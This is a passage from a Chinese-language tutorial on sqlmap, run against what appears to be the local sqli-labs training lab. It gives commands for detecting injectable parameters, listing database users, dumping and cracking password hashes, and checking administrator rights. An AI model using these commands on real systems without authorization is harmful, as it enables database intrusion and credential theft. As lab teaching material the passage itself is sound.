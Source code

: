 然后我们可以指定这个数据包进行探测

```python
sqlmap -r post.txt        #探测post.txt文件中的http数据包是否存在sql注入漏洞
```

他也会和我们进行交互，询问我们，这里就不一一解释了

![](https://p4.ssl.qhimg.com/t0184de93de8fd4b128.png)

可以看到，已经探测到 uname 参数存在漏洞了，问我们是否还想探测其他参数，我们选择的 y，它检测到 passwd 也存在漏洞了，问我们是否还想探测其他参数，我们选择 n

![](https://p4.ssl.qhimg.com/t010d67187cada10591.png)

然后会让我们选择，在后续的测试中，是选择 uname 这个参数还是 passwd 这个参数作为漏洞，随便选择一个就好了。

## 查看数据库的所有用户 (—users)

```python
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" --users #查看数据库的所有用户
```

## ![](https://p1.ssl.qhimg.com/t01094c128ee722bb40.png)

## 查看数据库所有用户名的密码 (—passwords)

```python
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" --passwords #查看数据库用户名的密码
```

第一处询问我们是否保存密码的 hash 值为文件，我们不保存。第二处问我们是否使用 sqlmap 自带的字典进行爆破，我们选择 y，可以看出把密码爆破出来了，root 用户的密码也为 root。如果这里爆破不出来，我们可以拿 hash 值去字典更强大的地方爆破

## ![](https://p1.ssl.qhimg.com/t0163773c28f2937ed5.png)

## 查看数据库当前用户 (—current-user)

```python
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" --current-user  #查看数据库当前的用户
```

## 判断当前用户是否有管理权限 (—is-dba)

查看当前账户是否为数据库管理员账户

```python
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" --is-dba  #判断当前用户是否有管理员权限
```

##


## 列出数据库管理员角色 (—roles)
